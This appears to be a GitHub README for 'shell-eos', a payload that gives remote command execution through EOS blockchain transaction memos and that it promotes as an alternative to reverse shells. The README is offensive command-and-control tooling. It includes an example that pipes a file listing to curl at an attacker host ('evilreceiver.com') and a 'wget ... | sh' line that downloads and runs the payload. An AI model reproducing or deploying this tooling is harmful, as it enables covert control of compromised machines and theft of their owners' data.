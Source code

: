 # shell-eos
Decentralized shell over eos blockchain to send commands by eos blockchain to the shells.

Avoid reverse shell usage , who requires online server listening for connections.

## Run the shell as a payload

Run the command to start the daemond listening in the blockchain address. When receives a new transacion the shell search the command in the memo of transaction to execute it.

`python3 payloads/shell-eos.py eosaccountname accountmaster`

*account master is who the bot obey

Send to a EOS address command line to execute orders

## Execute commands in each opened shell

`python3 payloads/send-eos.py eosaccountname` "ls -lsa | xargs ... | curl https://evilreceiver.com" .... -d {1}

## Publish datasets in a address as a recipient

`python3 payloads/send-eos.py eosaccountname` "data" "separator"

## Compile

`./compile.sh`

## Using as a payload

- Compile

- Upload to your prefered file server

`wget https://yourpreferedserver.com/path | sh`




